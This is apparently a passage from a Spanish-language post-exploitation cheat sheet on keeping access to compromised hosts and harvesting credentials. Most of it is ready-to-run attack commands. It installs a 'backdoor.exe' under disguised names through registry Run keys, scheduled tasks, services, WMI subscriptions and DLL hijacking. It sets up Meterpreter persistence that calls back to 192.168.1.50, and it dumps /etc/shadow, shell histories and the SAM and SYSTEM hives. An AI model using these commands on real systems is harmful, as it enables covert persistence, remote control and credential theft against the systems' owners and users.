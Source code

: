 ### 2. Persistencia en Windows

```powershell
# 1. Registry Run key
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "SecurityUpdate" /t REG_SZ /d "C:\Windows\Temp\backdoor.exe"

# 2. Scheduled Task
schtasks /create /tn "SecurityUpdate" /tr "C:\Windows\Temp\backdoor.exe" /sc onlogon

# 3. Service creation
sc create "SecurityService" binpath= "C:\Windows\Temp\backdoor.exe" start= auto
sc start SecurityService

# 4. WMI Event Subscription
$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{Name="SecurityFilter";EventNameSpace="root\cimv2";QueryLanguage="WQL";Query="SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"}

$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name="SecurityConsumer";CommandLineTemplate="C:\Windows\Temp\backdoor.exe"}

Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$filter;Consumer=$consumer}

# 5. DLL Hijacking
copy backdoor.dll "C:\Program Files\Application\hijackable.dll"
```

### 3. Meterpreter Persistence

```bash
# Meterpreter persistence modules
run persistence -S -U -X -i 60 -p 4445 -r 192.168.1.50

# Manual persistence
upload backdoor.exe C:\\Windows\\Temp\\backdoor.exe
run persistence -S -X -i 60 -p 4445 -r 192.168.1.50 -A -L c:\\
```

## 📊 Recolección de Información Sensible

### 1. Credenciales y Hashes

```bash
# Linux - Archivos de contraseñas
cat /etc/passwd
cat /etc/shadow (requiere root)

# Buscar archivos con credenciales
grep -r "password" /home/ 2>/dev/null
grep -r "username" /var/log/ 2>/dev/null
find / -name "*.config" -exec grep -l "password" {} \; 2>/dev/null

# Historial de comandos
cat ~/.bash_history
cat ~/.mysql_history
cat ~/.ssh/known_hosts

# Windows - SAM y SYSTEM
reg save HKLM\SYSTEM C:\Windows\Temp\system.hiv
reg save HKLM\SAM C:\Windows\Temp\sam.hiv

# Mimikatz para extraer credenciales
```
